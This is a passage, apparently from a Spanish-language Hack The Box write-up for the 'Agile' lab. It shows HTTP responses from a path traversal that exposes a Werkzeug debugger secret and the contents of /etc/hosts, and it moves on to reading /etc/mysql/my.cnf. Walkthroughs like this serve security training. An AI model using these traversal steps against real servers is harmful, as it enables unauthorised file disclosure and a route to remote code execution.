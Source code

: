 No tenemos acceso al archivo pero encontramos un campo llamado secret en la respuesta

~~~http
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 06 Mar 2023 15:15:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13637
Connection: close

<!doctype html>
<html lang=en>
  <head>
    <title>PermissionError: [Errno 13] Permission denied: '/tmp/../../home/dev_admin/app/config_prod.json'
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=res&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=res&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=res&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "0k71JQ5bp0qM5tHnQe0w";
    </script>
  </head>
~~~

Datos del archivo hosts

~~~http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 06 Mar 2023 15:48:03 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 253
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

127.0.0.1 localhost superpass.htb test.superpass.htb
127.0.1.1 agile

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
~~~

Archivo /etc/mysql/my.cnf
